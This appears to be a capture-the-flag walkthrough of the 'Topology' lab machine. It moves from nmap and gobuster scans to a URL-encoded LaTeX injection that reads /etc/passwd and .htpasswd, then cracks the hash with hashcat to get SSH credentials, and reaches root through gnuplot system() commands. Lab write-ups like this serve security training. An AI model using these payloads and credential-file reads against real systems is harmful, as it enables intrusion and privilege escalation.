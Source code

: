 ## 1. Reconnaissance
### Nmap
```
$ nmap -p- -sS -sC -sV --min-rate 5000 10.10.11.217

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
|   256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
|_  256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Index of /
| http-ls: Volume /
|   maxfiles limit reached (10)
| SIZE  TIME              FILENAME
| -     2023-01-17 12:26  demo/
| 1.0K  2023-01-17 12:26  demo/fraction.png
| 1.1K  2023-01-17 12:26  demo/greek.png
| 1.1K  2023-01-17 12:26  demo/sqrt.png
| 1.0K  2023-01-17 12:26  demo/summ.png
| 3.8K  2023-06-12 07:37  equation.php
| 662   2023-01-17 12:26  equationtest.aux
| 17K   2023-01-17 12:26  equationtest.log
| 0     2023-01-17 12:26  equationtest.out
| 28K   2023-01-17 12:26  equationtest.pdf
|_
Service Info: Host: topology.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### Dir scan
```
$ gobuster dir -u http://10.10.11.217/ -w /usr/share/wordlists/dirb/big.txt

/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.217/css/]
/images               (Status: 301) [Size: 313] [--> http://10.10.11.217/images/]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.11.217/javascript/]
/portraits            (Status: 301) [Size: 316] [--> http://10.10.11.217/portraits/]
/server-status        (Status: 403) [Size: 277]
/~bin                 (Status: 403) [Size: 277]
/~lp                  (Status: 403) [Size: 277]
/~mail                (Status: 403) [Size: 277]
/~nobody              (Status: 403) [Size: 277]
/~sys                 (Status: 403) [Size: 277]
Progress: 20469 / 20470 (100.00%)
```
### Vhost scan
```
$ gobuster vhost -u topology.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain

Found: dev.topology.htb Status: 401 [Size: 463]
Found: stats.topology.htb Status: 200 [Size: 108]
```

## 2. Enumeration
- Access web page, find another subdomain `latex.topology.htb`

## 3. User shell
- Try latex injection from Hacktrick, observe can read file `http://latex.topology.htb/equation.php?eqn=%24%5clstinputlisting%7b%2fetc%2fpasswd%7d%24&submit=`
- Read file `/.htpasswd` file and try to access the `dev.topology.htb` domain
```
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```
- Identify hash type
```
$ hashid '$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0' 

Analyzing '$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0'
[+] MD5(APR) 
[+] Apache MD5 
```
- Crack password with hashcat
```
$ hashcat -m 1600 users.hash /usr/share/wordlists/rockyou.txt

$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0:calculus20
```
- SSH with creds `vdaisley:calculus20` to get `user.txt`

## 4. Root shell
- Run `pspy64` to check root process, observe gnuplot is run as root
- Write new `.plt` file to get root shell 
```
system "command string"
! command string
output = system("command string")
show variable GPVAL_SYSTEM
```